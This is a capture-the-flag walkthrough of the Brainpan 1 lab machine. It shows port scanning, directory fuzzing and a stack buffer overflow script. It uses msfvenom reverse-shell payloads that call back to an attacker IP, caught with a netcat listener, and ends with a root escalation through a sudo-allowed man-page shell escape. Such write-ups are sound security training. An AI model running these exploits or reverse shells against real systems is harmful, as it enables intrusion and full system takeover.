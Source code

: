 # Brainpan 1

I am going to start with a nmap scan:

```bash
nmap 10.10.143.30                      

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-03 12:34 EST
Nmap scan report for 10.10.143.30
Host is up (0.058s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT      STATE SERVICE
9999/tcp  open  abyss
10000/tcp open  snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 7.40 seconds
```

```bash
9999/tcp  open  abyss?
10000/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.3)
```

Port 9999 contains the program:

```bash
nc 10.10.143.30 9999
_|                            _|                                        
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|  
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|                          
                                            _|

[________________________ WELCOME TO BRAINPAN _________________________]
                          ENTER THE PASSWORD
```

And 10000 contains a http server:

![Untitled](Brainpan%201%20ad62754b337f4b43b8bb42d82d0a7e29/Untitled.png)

The site doesn’t tell us much, but I used ffuf for enumerating the subdirectories:

```bash
ffuf -u http://10.10.143.30:10000/FUZZ -w /usr/share/wordlists/dirb/big.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.143.30:10000/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

bin                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 65ms]
```

He found the bin directory, which contains the exe!

I moved the exe in my windows machine with Immunity Debugger and mona installed.

And I started the server:

![Untitled](Brainpan%201%20ad62754b337f4b43b8bb42d82d0a7e29/Untitled%201.png)

I will use this code for getting a reverse shell:

```bash
import socket

ip = "10.10.6.37"
port = 9999

offset = 0
overflow = "A" * offset
retn = ""
padding = "\x90" * 16
payload = ""
postfix = ""

buffer =  overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

With 600 bytes the server crushes.

So I am going to use metasploit to create a payload:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
```

And I got the offset using mona: 

```bash
!mona findmsp -distance 5000
```

![Untitled](Brainpan%201%20ad62754b337f4b43b8bb42d82d0a7e29/Untitled%202.png)

Now I can put the offset in the offset variable inside the script.

I am going to start searching for the bad characters:

Using a payload with all the characters and compare it with mona we get this:

![Untitled](Brainpan%201%20ad62754b337f4b43b8bb42d82d0a7e29/Untitled%203.png)

After that we search for the jmp:

![Untitled](Brainpan%201%20ad62754b337f4b43b8bb42d82d0a7e29/Untitled%204.png)

We need to put this in the retn variable of the script: \zf3\x12\x17\x31 (It is reversed because of the little eldiana rchitecture, which x86 CPUs have.)

Then we generate our payload:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.18.20.116 LPORT=4444 EXITFUNC=thread -b "\x00\x01\x02\x03\x04\x06\x07" -f c
```

And put it in the code.

And now if we run the code we should have a shell:

```bash
nc -lvnp 4444                                                                                     
listening on [any] 4444 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.6.37] 49292
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop>
```

Now I am just going to change the ip of the script and put the one of the machine, and we should have a shell in the remote server: 

- note, i have used another msfvenom payload for this one:

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.18.20.116 LPORT=4444 EXITFUNC=thread -b "\x00\x01\x02\x03\x04\x06\x07" -f c
```

```bash
nc -lvnp 4555
listening on [any] 4555 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.143.30] 41139
ls
checksrv.sh
web
python -c 'import pty;pty.spawn("/bin/bash")' 
puck@brainpan:/home/puck$ sudo -l
sudo -l
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
puck@brainpan:/home/puck$
```

Nice!

We can see that we can run anansi_util with root

```bash
sudo /home/anansi/bin/anansi_util
Usage: /home/anansi/bin/anansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
```

The interessing thing is the manual command, which is the man command.

```bash
sudo /home/anansi/bin/anansi_util manual /bin/sh
/usr/bin/man: manual-/bin/sh: No such file or directory
/usr/bin/man: manual_/bin/sh: No such file or directory
No manual entry for manual
WARNING: terminal is not fully functional
-  (press RETURN) 
DASH(1)                   BSD General Commands Manual                  DASH(1)

NAME
     dash — command interpreter (shell)

SYNOPSIS
     dash [-aCefnuvxIimqVEb] [+aCefnuvxIimqVEb] [-o option_name]
          [+o option_name] [command_file [argument ...]]
     dash -c [-aCefnuvxIimqVEb] [+aCefnuvxIimqVEb] [-o option_name]
          [+o option_name] command_string [command_name [argument ...]]
     dash -s [-aCefnuvxIimqVEb] [+aCefnuvxIimqVEb] [-o option_name]
          [+o option_name] [argument ...]

DESCRIPTION
     dash is the standard command interpreter for the system.  The current
     version of dash is in the process of being changed to conform with the
     POSIX 1003.2 and 1003.2a specifications for the shell.  This version has
     many features which make it appear similar in some respects to the Korn
     shell, but it is not a Korn shell clone (see ksh(1)).  Only features des‐
     ignated by POSIX, plus a few Berkeley extensions, are being incorporated
     into this shell.  This man page is not intended to be a tutorial or a
     complete specification of the shell.

 Manual page sh(1) line 1 (press h for help or q to quit)!/bin/sh
!/bin/sh
# whoami
whoami
root
```

And just like that we got a root shell!